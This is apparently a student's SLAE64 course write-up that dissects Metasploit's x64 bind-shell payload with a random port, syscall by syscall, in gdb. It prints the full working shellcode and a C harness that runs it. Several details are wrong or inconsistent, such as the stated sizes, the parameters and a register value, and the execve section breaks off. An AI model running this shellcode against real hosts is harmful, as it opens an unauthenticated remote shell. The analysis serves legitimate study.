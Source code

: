 ## Assignment #5.1: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `execve` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the parameters. As no parameters are needed or used, simply gets the NULL value "0x00"
- RDX: NULL value, "0x00"
The Stack Technique is used, hence will need to review the values pushed in the stack. `stepi`'ing and following the code, the stack contents just before the syscall should be:
```asm






















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode.
- [Shellcode_01.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_01.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
